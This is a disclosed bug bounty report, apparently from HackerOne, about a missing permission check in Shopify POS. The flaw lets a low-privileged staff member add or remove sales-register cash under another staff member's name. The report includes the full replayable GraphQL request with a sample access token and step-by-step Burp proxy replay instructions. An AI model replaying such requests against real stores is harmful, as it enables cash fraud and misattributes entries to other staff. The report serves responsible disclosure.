 # Low Privileged user can add or remove cash to/from sales register

## Report Details
- **Report ID**: 905543
- **URL**: https://hackerone.com/reports/905543
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-06-22T18:00:10.471Z
- **Disclosed**: 2021-06-16T17:27:06.233Z

## Reporter
- **Username**: sandeep_rj49
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Low privileged user having no access to Shopify POS  and very low permission set is not allowed to add cash to the sales register or remove cash from the sales register. But missing server-side permission checks on the vulnerable request allows a low privileged user to do this.  A low privileged can add cash to the sales register using the vulnerable request and can supply the staff member id of other users to show that another member added/removed the cash from the sales register.

This vulnerability can be exploited by replaying the vulnerable request using a low privileged user session.

###Vulnerable request:
Request 1: To add/remove Cash from sales register. 
```
POST /admin/api/unversioned/graphql HTTP/1.1
Host: alwayzhack.myshopify.com
Content-Type: application/json
Connection: close
X-Shopify-Override-User-Locale: en-IN
X-Shopify-Access-Token: 7c46e4dbba8ca0eeeedbde70ad308919
Accept: application/json
X-DeviceID: B84572D0-F696-47EC-8A18-ECD286B215CD
User-Agent: Shopify POS/iOS/6.7.0 (iPhone12,3/com.jadedpixel.pos/13.1.1) - Build 630
Content-Length: 667
Accept-Language: en-us
Accept-Encoding: gzip, deflate

{"query":"fragment UserErrors on UserError { __typename field message } mutation CashTrackingSessionAdjust($sessionID: ID!, $money: MoneyInput!, $time: DateTime!, $staffMemberId: ID!, $note: String) { __typename cashTrackingSessionAdjust(cashTrackingSessionId: $sessionID, cash: $money, time: $time, staffMemberId: $staffMemberId, note: $note) { __typename userErrors { __typename ... UserErrors } cashTrackingSession { __typename id } } }","variables":{"money":{"amount":"500","currencyCode":"INR"},"sessionID":"gid:\/\/shopify\/CashTrackingSession\/58327096","note":"","time":"2020-06-22T17:19:21+05:30","staffMemberId":"gid:\/\/shopify\/StaffMember\/42668326968"}}
```
Change the session id with the active cash tracking session-id and staff member id with another staff member id. The supplied staff member will be displayed in the cash entry, so a low privileged user can supply another staff member's id.

##Steps to reproduce:
1. Add a low privileged user to the Shopify account and do not give access to the Shopify POS sales channel (Assign any very low permission or no permission).
2. Download the Shopify POS iOS application on the iPhone and configure it with the burp suite proxy.
3. Login to the account using low privileged user credentials.
4. Copy the low privileged user access token, disclosed in -POST /admin/api/xauth HTTP/1.1 API response.
5. Change the session id with the active cash tracking session-id and staff member id with another staff member id in the vulnerable request.
6. Paste the low privileged user access token in the vulnerable request and replay it in the burp suite proxy tool.  Cash entry will be logged in the sales register using another staff member's name. 

Please note: to add cash use positive cash value (for example: 500) and to remove cash from sales register supply negative cash values (for example: -500) in the amount parameter of the vulnerable request.

## Impact

Low privileged user can add or remove cash from the sales register.

## Attachments
No attachments
